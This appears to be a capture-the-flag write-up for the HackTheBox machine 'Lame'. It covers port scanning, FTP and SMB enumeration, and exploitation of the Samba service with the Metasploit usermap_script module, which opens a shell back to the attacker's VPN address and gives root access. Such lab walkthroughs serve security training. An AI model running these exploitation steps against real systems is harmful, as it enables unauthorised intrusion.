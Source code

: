 ```yaml
---
Platform: HackTheBox
Difficulty: Easy
tags:
  - RCE
Status: Rooted/Finished
Type: Machine
Title: Lame
Category: 
CreatedOn: 04-12-2023
---
```

# Lame

Hello everyone, In this blog we are going to solve Lame from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)

  

Lets Start 🙌

  

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

  

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.3 -- -A -Pn`

![[Lame/assets/Untitled.png|Untitled.png]]

![[Lame/assets/Untitled 1.png|Untitled 1.png]]

From the results, we got the following ports and services running:

|   |   |   |
|---|---|---|
|Port|Service|Version|
|21|FTP|vsftpd 2.3.4|
|22|SSH|OpenSSH 4.7p1|
|139|netbios-ssn|Samba smbd 3.X - 4.X|
|445|netbios-ssn|Samba smbd 3.X - 4.X|
|3632|distccd|distccd v1|

First, I started enumerating the FTP service running on Port `21`.

From the scan results, we can see that the Anonymous login is allowed for FTP

![[Lame/assets/Untitled 2.png|Untitled 2.png]]

So I tried to login as `Anonymous`

Command: `ftp 10.10.10.3`

username: `Anonymous`

Password: `Anonymous`

![[Lame/assets/Untitled 3.png|Untitled 3.png]]

![[Lame/assets/Untitled 4.png|Untitled 4.png]]

Found nothing in the FTP anonymous Login.

Next I started to enumerate SMB service running on port 139. I used `enum4linux` tool to enumerate.

Command: `enum4linux -a 10.10.10.3`

![[Lame/assets/Untitled 5.png|Untitled 5.png]]

From the response of `enum4linux`, I didn’t found any interesting shares.

  

Next, I searched for exploits for the samba version: `Samba smbd 3.X - 4.X` and found the this version is vulnerable to command execution.

[https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

To use the above exploit, execute the commands in `msfconsole` as follows:

`use exploit/multi/samba/usermap_script`

`set RHOSTS 10.10.10.3`

`set LHOST tun0` ( Here tun0 is your hackthebox vpn tunnel IP )

`run`

![[Lame/assets/Untitled 6.png|Untitled 6.png]]

Now we have got access to the target machine as `root`. I searched for the user flag using the following command:

command: `find / -name user.txt`

![[Lame/assets/Untitled 7.png|Untitled 7.png]]

And we have found the user flag.

Now I searched for the root flag using the same method and found the root flag:

![[Lame/assets/Untitled 8.png|Untitled 8.png]]

  

We have successfully found all the flags.

  

Thank You !!!